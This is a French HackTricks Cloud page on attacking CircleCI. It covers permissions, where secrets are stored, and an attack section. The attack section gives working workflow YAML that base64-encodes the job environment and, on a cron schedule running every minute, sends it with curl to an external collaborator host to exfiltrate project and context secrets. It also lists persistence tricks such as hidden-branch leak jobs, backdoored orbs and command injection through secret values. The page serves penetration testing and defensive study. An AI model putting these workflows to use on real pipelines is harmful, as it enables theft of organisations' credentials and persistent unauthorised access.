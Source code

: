 # Sécurité de CircleCI

<details>

{% hint style="success" %}
Apprenez et pratiquez le piratage AWS :<img src="/.gitbook/assets/image.png" alt="" data-size="line">[**Formation HackTricks AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/image.png" alt="" data-size="line">\
Apprenez et pratiquez le piratage GCP : <img src="/.gitbook/assets/image (2).png" alt="" data-size="line">[**Formation HackTricks GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Soutenez HackTricks</summary>

* Consultez les [**plans d'abonnement**](https://github.com/sponsors/carlospolop)!
* **Rejoignez le** 💬 [**groupe Discord**](https://discord.gg/hRep4RUj7f) ou le [**groupe Telegram**](https://t.me/peass) ou **suivez-nous** sur **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Partagez des astuces de piratage en soumettant des PR aux** [**HackTricks**](https://github.com/carlospolop/hacktricks) et [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) dépôts GitHub.

</details>
{% endhint %}

## Informations de base

[**CircleCI**](https://circleci.com/docs/2.0/about-circleci/) est une plateforme d'intégration continue où vous pouvez **définir des modèles** indiquant ce que vous voulez qu'il fasse avec un peu de code et quand le faire. De cette manière, vous pouvez **automatiser les tests** ou les **déploiements** directement **depuis la branche principale de votre dépôt**, par exemple.

## Autorisations

**CircleCI** **hérite des autorisations** de github et bitbucket liées au **compte** qui se connecte.\
Dans mes tests, j'ai vérifié que tant que vous avez des **autorisations d'écriture sur le dépôt github**, vous pourrez **gérer ses paramètres de projet dans CircleCI** (définir de nouvelles clés ssh, obtenir des clés api de projet, créer de nouvelles branches avec de nouvelles configurations CircleCI...).

Cependant, vous devez être un **administrateur de dépôt** pour **convertir le dépôt en un projet CircleCI**.

## Variables d'environnement et Secrets

Selon [**la documentation**](https://circleci.com/docs/2.0/env-vars/), il existe différentes façons de **charger des valeurs dans des variables d'environnement** à l'intérieur d'un flux de travail.

### Variables d'environnement intégrées

Chaque conteneur exécuté par CircleCI aura toujours des [**variables d'environnement spécifiques définies dans la documentation**](https://circleci.com/docs/2.0/env-vars/#built-in-environment-variables) comme `CIRCLE_PR_USERNAME`, `CIRCLE_PROJECT_REPONAME` ou `CIRCLE_USERNAME`.

### Texte clair

Vous pouvez les déclarer en clair à l'intérieur d'une **commande**:
```yaml
- run:
name: "set and echo"
command: |
SECRET="A secret"
echo $SECRET
```
Vous pouvez les déclarer en texte clair à l'intérieur de l'environnement **run** :
```yaml
- run:
name: "set and echo"
command: echo $SECRET
environment:
SECRET: A secret
```
Vous pouvez les déclarer en texte clair à l'intérieur de l'environnement du **build-job** :
```yaml
jobs:
build-job:
docker:
- image: cimg/base:2020.01
environment:
SECRET: A secret
```
Vous pouvez les déclarer en texte clair à l'intérieur de l'**environnement d'un conteneur** :
```yaml
jobs:
build-job:
docker:
- image: cimg/base:2020.01
environment:
SECRET: A secret
```
### Secrets du Projet

Ce sont des **secrets** qui ne seront accessibles que par le **projet** (par **n'importe quelle branche**).\
Vous pouvez les voir déclarés dans _https://app.circleci.com/settings/project/github/\<org\_name>/\<repo\_name>/environment-variables_

![](<../.gitbook/assets/image (129).png>)

{% hint style="danger" %}
La fonctionnalité "**Import Variables**" permet d'**importer des variables depuis d'autres projets** vers celui-ci.
{% endhint %}

### Secrets de Contexte

Ce sont des secrets qui sont **valables pour toute l'organisation**. Par **défaut, n'importe quel dépôt** pourra accéder à n'importe quel secret stocké ici :

![](<../.gitbook/assets/image (123).png>)

{% hint style="success" %}
Cependant, notez qu'un groupe différent (au lieu de Tous les membres) peut être **sélectionné pour donner accès aux secrets à des personnes spécifiques uniquement**.\
C'est actuellement l'une des meilleures façons d'**accroître la sécurité des secrets**, pour ne pas permettre à tout le monde d'y accéder mais seulement à certaines personnes.
{% endhint %}

## Attaques

### Recherche de Secrets en Texte Clair

Si vous avez **accès au VCS** (comme github), vérifiez le fichier `.circleci/config.yml` de **chaque dépôt sur chaque branche** et **recherchez** d'éventuels **secrets en texte clair** qui y sont stockés.

### Variables d'Environnement Secrètes & Énumération de Contexte

En vérifiant le code, vous pouvez trouver **tous les noms de secrets** qui sont **utilisés** dans chaque fichier `.circleci/config.yml`. Vous pouvez également obtenir les **noms de contexte** à partir de ces fichiers ou les vérifier dans la console web : _https://app.circleci.com/settings/organization/github/\<org\_name>/contexts_.

### Exfiltration des secrets du projet

{% hint style="warning" %}
Pour **exfiltrer TOUS** les secrets du projet et du contexte, vous avez juste besoin d'avoir un accès **EN ÉCRITURE** à **juste 1 dépôt** dans toute l'organisation github (_et votre compte doit avoir accès aux contextes mais par défaut tout le monde peut accéder à tous les contextes_).
{% endhint %}

{% hint style="danger" %}
La fonctionnalité "**Import Variables**" permet d'**importer des variables depuis d'autres projets** vers celui-ci. Par conséquent, un attaquant pourrait **importer toutes les variables du projet depuis tous les dépôts** puis **les exfiltrer toutes ensemble**.
{% endhint %}

Tous les secrets du projet sont toujours définis dans l'environnement des jobs, donc en appelant env et en l'obscurcissant en base64, vous exfiltrerez les secrets dans la **console web des journaux des workflows** :
```yaml
version: 2.1

jobs:
exfil-env:
docker:
- image: cimg/base:stable
steps:
- checkout
- run:
name: "Exfil env"
command: "env | base64"

workflows:
exfil-env-workflow:
jobs:
- exfil-env
```
Si vous **n'avez pas accès à la console web** mais que vous avez **accès au dépôt** et que vous savez que CircleCI est utilisé, vous pouvez simplement **créer un flux de travail** qui est **déclenché toutes les minutes** et qui **exfiltre les secrets vers une adresse externe**:
```yaml
version: 2.1

jobs:
exfil-env:
docker:
- image: cimg/base:stable
steps:
- checkout
- run:
name: "Exfil env"
command: "curl https://lyn7hzchao276nyvooiekpjn9ef43t.burpcollaborator.net/?a=`env | base64 -w0`"

# I filter by the repo branch where this config.yaml file is located: circleci-project-setup
workflows:
exfil-env-workflow:
triggers:
- schedule:
cron: "* * * * *"
filters:
branches:
only:
- circleci-project-setup
jobs:
- exfil-env
```
### Exfiltrer les secrets de contexte

Vous devez **spécifier le nom du contexte** (cela exfiltrera également les secrets du projet) :
```yaml
version: 2.1

jobs:
exfil-env:
docker:
- image: cimg/base:stable
steps:
- checkout
- run:
name: "Exfil env"
command: "env | base64"

workflows:
exfil-env-workflow:
jobs:
- exfil-env:
context: Test-Context
```
Si vous **n'avez pas accès à la console web** mais que vous avez **accès au dépôt** et que vous savez que CircleCI est utilisé, vous pouvez simplement **modifier un flux de travail** qui est **déclenché toutes les minutes** et qui **exfiltre les secrets vers une adresse externe**:
```yaml
version: 2.1

jobs:
exfil-env:
docker:
- image: cimg/base:stable
steps:
- checkout
- run:
name: "Exfil env"
command: "curl https://lyn7hzchao276nyvooiekpjn9ef43t.burpcollaborator.net/?a=`env | base64 -w0`"

# I filter by the repo branch where this config.yaml file is located: circleci-project-setup
workflows:
exfil-env-workflow:
triggers:
- schedule:
cron: "* * * * *"
filters:
branches:
only:
- circleci-project-setup
jobs:
- exfil-env:
context: Test-Context
```
{% hint style="warning" %}
Simplement créer un nouveau fichier `.circleci/config.yml` dans un dépôt **n'est pas suffisant pour déclencher une construction CircleCI**. Vous devez **l'activer en tant que projet dans la console CircleCI**.
{% endhint %}

### Évasion vers le Cloud

**CircleCI** vous donne la possibilité d'exécuter **vos constructions sur leurs machines ou sur les vôtres**.\
Par défaut, leurs machines sont situées dans GCP, et initialement vous ne pourrez pas trouver quelque chose de pertinent. Cependant, si une victime exécute les tâches dans **ses propres machines (potentiellement, dans un environnement cloud)**, vous pourriez trouver un **point de terminaison de métadonnées cloud avec des informations intéressantes**.

Remarquez que dans les exemples précédents, tout a été lancé à l'intérieur d'un conteneur Docker, mais vous pouvez également **demander le lancement d'une machine virtuelle** (qui peut avoir des autorisations cloud différentes) :
```yaml
jobs:
exfil-env:
#docker:
#  - image: cimg/base:stable
machine:
image: ubuntu-2004:current
```
Ou même un conteneur Docker avec accès à un service Docker distant :
```yaml
jobs:
exfil-env:
docker:
- image: cimg/base:stable
steps:
- checkout
- setup_remote_docker:
version: 19.03.13
```
### Persistance

* Il est possible de **créer des jetons d'utilisateur dans CircleCI** pour accéder aux points d'API avec les autorisations des utilisateurs.
* _https://app.circleci.com/settings/user/tokens_
* Il est possible de **créer des jetons de projets** pour accéder au projet avec les autorisations données au jeton.
* _https://app.circleci.com/settings/project/github/\<org>/\<repo>/api_
* Il est possible d'**ajouter des clés SSH** aux projets.
* _https://app.circleci.com/settings/project/github/\<org>/\<repo>/ssh_
* Il est possible de **créer un travail cron dans une branche cachée** dans un projet inattendu qui **fuit** toutes les variables d'environnement de contexte chaque jour.
* Ou même créer dans une branche / modifier un travail connu qui **fuit** tout le contexte et les **secrets des projets** chaque jour.
* Si vous êtes propriétaire de github, vous pouvez **autoriser les orbs non vérifiés** et en configurer un dans un travail comme **backdoor**
* Vous pouvez trouver une **vulnérabilité d'injection de commande** dans certaines tâches et **injecter des commandes** via un **secret** en modifiant sa valeur

<details>

{% hint style="success" %}
Apprenez et pratiquez le piratage AWS :<img src="/.gitbook/assets/image.png" alt="" data-size="line">[**Formation HackTricks AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/image.png" alt="" data-size="line">\
Apprenez et pratiquez le piratage GCP : <img src="/.gitbook/assets/image (2).png" alt="" data-size="line">[**Formation HackTricks GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Soutenez HackTricks</summary>

* Consultez les [**plans d'abonnement**](https://github.com/sponsors/carlospolop)!
* **Rejoignez le** 💬 [**groupe Discord**](https://discord.gg/hRep4RUj7f) ou le [**groupe telegram**](https://t.me/peass) ou **suivez** nous sur **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Partagez des astuces de piratage en soumettant des PR aux** [**HackTricks**](https://github.com/carlospolop/hacktricks) et [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}
